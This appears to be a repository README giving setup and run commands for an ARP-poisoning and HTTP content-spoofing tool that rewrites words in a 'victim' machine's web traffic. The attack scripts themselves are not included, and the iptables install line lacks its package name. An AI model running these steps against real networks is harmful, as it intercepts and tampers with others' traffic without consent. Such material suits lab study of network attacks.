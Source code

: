 ## On your "hacking" machine do the following:

# Install Scapy
'''
sudo apt-get install python3-scapy
'''

# Install iptables
'''
sudo apt-get install
'''

# Install NetfilterQueue
'''
git clone https://github.com/kti/python-netfilterqueue.git
cd python-netfilterqueue
pip3 install Cython --install-option="--no-cython-compile"
python3 setup.py build_ext --force
python3 setup.py install
'''

# Open one terminal and run arp-psn.py
'''
sudo python3 arp-psn.py <victim ip> <gateway ip>
'''
  
# Open another terminal and run httpspoof.py
'''
sudo python3 httpspoof.py <victim ip> <word to replace> <replacement word>
'''
**Note:** the word to replace and replacement word must have the same number of characters
  
  
On the computer that is associated with <victim ip>, access a http website.
